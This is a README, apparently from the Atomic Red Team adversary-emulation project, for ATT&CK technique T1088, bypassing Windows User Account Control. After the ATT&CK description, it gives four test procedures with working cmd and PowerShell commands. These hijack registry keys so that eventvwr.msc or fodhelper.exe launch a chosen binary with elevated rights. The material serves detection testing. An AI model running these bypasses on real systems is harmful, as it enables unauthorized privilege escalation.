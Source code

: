 <div class="Box-body readme blob instapaper_body js-code-block-container" id="readme">
    <article class="markdown-body entry-content p-3 p-md-6" itemprop="text"><h1><a aria-hidden="true" class="anchor" href="#t1088---bypass-user-account-control" id="user-content-t1088---bypass-user-account-control"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>T1088 - Bypass User Account Control</h1>
<h2><a aria-hidden="true" class="anchor" href="#description-from-attck" id="user-content-description-from-attck"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a><a href="https://attack.mitre.org/wiki/Technique/T1088" rel="nofollow">Description from ATT&amp;CK</a></h2>
<blockquote>Windows User Account Control (UAC) allows a program to elevate its privileges to perform a task under administrator-level permissions by prompting the user for confirmation. The impact to the user ranges from denying the operation under high enforcement to allowing the user to perform the action if they are in the local administrators group and click through the prompt or allowing them to enter an administrator password to complete the action. (Citation: TechNet How UAC Works)
<p>If the UAC protection level of a computer is set to anything but the highest level, certain Windows programs are allowed to elevate privileges or execute some elevated COM objects without prompting the user through the UAC notification box. (Citation: TechNet Inside UAC) (Citation: MSDN COM Elevation) An example of this is use of rundll32.exe to load a specifically crafted DLL which loads an auto-elevated COM object and performs a file operation in a protected directory which would typically require elevated access. Malicious software may also be injected into a trusted process to gain elevated privileges without prompting a user. (Citation: Davidson Windows) Adversaries can use these techniques to elevate privileges to administrator if the target process is unprotected.</p>
<p>Many methods have been discovered to bypass UAC. The Github readme page for UACMe contains an extensive list of methods (Citation: Github UACMe) that have been discovered and implemented within UACMe, but may not be a comprehensive list of bypasses. Additional bypass methods are regularly discovered and some used in the wild, such as:</p>
<ul>
<li><code>eventvwr.exe</code> can auto-elevate and execute a specified binary or script. (Citation: enigma0x3 Fileless UAC Bypass) (Citation: Fortinet Fareit)</li>
</ul>
<p>Another bypass is possible through some Lateral Movement techniques if credentials for an account with administrator privileges are known, since UAC is a single system security mechanism, and the privilege or integrity of a process running on one system will be unknown on lateral systems and default to high integrity. (Citation: SANS UAC Bypass)</p></blockquote><p></p>
<h2><a aria-hidden="true" class="anchor" href="#atomic-tests" id="user-content-atomic-tests"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Tests</h2>
<ul>
<li>
<p><a href="#atomic-test-1---bypass-uac-using-event-viewer">Atomic Test #1 - Bypass UAC using Event Viewer</a></p>
</li>
<li>
<p><a href="#atomic-test-2---bypass-uac-using-event-viewer---powershell">Atomic Test #2 - Bypass UAC using Event Viewer - PowerShell</a></p>
</li>
<li>
<p><a href="#atomic-test-3---bypass-uac-using-fodhelper">Atomic Test #3 - Bypass UAC using Fodhelper</a></p>
</li>
<li>
<p><a href="#atomic-test-4---bypass-uac-using-fodhelper---powershell">Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell</a></p>
</li>
</ul>
<br/>
<h2><a aria-hidden="true" class="anchor" href="#atomic-test-1---bypass-uac-using-event-viewer" id="user-content-atomic-test-1---bypass-uac-using-event-viewer"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Test #1 - Bypass UAC using Event Viewer</h2>
<p>Bypasses User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - <a href="https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/" rel="nofollow">https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/</a></p>
<p><strong>Supported Platforms:</strong> Windows</p>
<h4><a aria-hidden="true" class="anchor" href="#inputs" id="user-content-inputs"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Inputs</h4>
<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
<th>Type</th>
<th>Default Value</th>
</tr>
</thead>
<tbody>
<tr>
<td>executable_binary</td>
<td>Binary to execute with UAC Bypass</td>
<td>path</td>
<td>C:\Windows\System32\cmd.exe</td>
</tr>
</tbody>
</table>
<h4><a aria-hidden="true" class="anchor" href="#run-it-with-command_prompt" id="user-content-run-it-with-command_prompt"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Run it with <code>command_prompt</code>!</h4>
<pre><code>reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "#{executable_binary}" /f
cmd.exe /c eventvwr.msc
</code></pre>
<br/>
<br/>
<h2><a aria-hidden="true" class="anchor" href="#atomic-test-2---bypass-uac-using-event-viewer---powershell" id="user-content-atomic-test-2---bypass-uac-using-event-viewer---powershell"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Test #2 - Bypass UAC using Event Viewer - PowerShell</h2>
<p>PowerShell code to bypass User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - <a href="https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/" rel="nofollow">https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/</a></p>
<p><strong>Supported Platforms:</strong> Windows</p>
<h4><a aria-hidden="true" class="anchor" href="#inputs-1" id="user-content-inputs-1"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Inputs</h4>
<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
<th>Type</th>
<th>Default Value</th>
</tr>
</thead>
<tbody>
<tr>
<td>executable_binary</td>
<td>Binary to execute with UAC Bypass</td>
<td>path</td>
<td>C:\Windows\System32\cmd.exe</td>
</tr>
</tbody>
</table>
<h4><a aria-hidden="true" class="anchor" href="#run-it-with-command_prompt-1" id="user-content-run-it-with-command_prompt-1"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Run it with <code>command_prompt</code>!</h4>
<pre><code>New-Item "HKCU:\software\classes\mscfile\shell\open\command" -Force
Set-ItemProperty "HKCU:\software\classes\mscfile\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\eventvwr.msc"
</code></pre>
<br/>
<br/>
<h2><a aria-hidden="true" class="anchor" href="#atomic-test-3---bypass-uac-using-fodhelper" id="user-content-atomic-test-3---bypass-uac-using-fodhelper"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Test #3 - Bypass UAC using Fodhelper</h2>
<p>Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.</p>
<p><strong>Supported Platforms:</strong> Windows</p>
<h4><a aria-hidden="true" class="anchor" href="#inputs-2" id="user-content-inputs-2"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Inputs</h4>
<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
<th>Type</th>
<th>Default Value</th>
</tr>
</thead>
<tbody>
<tr>
<td>executable_binary</td>
<td>Binary to execute with UAC Bypass</td>
<td>path</td>
<td>C:\Windows\System32\cmd.exe</td>
</tr>
</tbody>
</table>
<h4><a aria-hidden="true" class="anchor" href="#run-it-with-command_prompt-2" id="user-content-run-it-with-command_prompt-2"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Run it with <code>command_prompt</code>!</h4>
<pre><code>reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "#{executable_binary}" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute"
fodhelper.exe
</code></pre>
<br/>
<br/>
<h2><a aria-hidden="true" class="anchor" href="#atomic-test-4---bypass-uac-using-fodhelper---powershell" id="user-content-atomic-test-4---bypass-uac-using-fodhelper---powershell"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell</h2>
<p>PowerShell code to bypass User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.</p>
<p><strong>Supported Platforms:</strong> Windows</p>
<h4><a aria-hidden="true" class="anchor" href="#inputs-3" id="user-content-inputs-3"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Inputs</h4>
<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
<th>Type</th>
<th>Default Value</th>
</tr>
</thead>
<tbody>
<tr>
<td>executable_binary</td>
<td>Binary to execute with UAC Bypass</td>
<td>path</td>
<td>C:\Windows\System32\cmd.exe</td>
</tr>
</tbody>
</table>
<h4><a aria-hidden="true" class="anchor" href="#run-it-with-powershell" id="user-content-run-it-with-powershell"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Run it with <code>powershell</code>!</h4>
<pre><code>New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
</code></pre>
<br/>
</article>
  </div>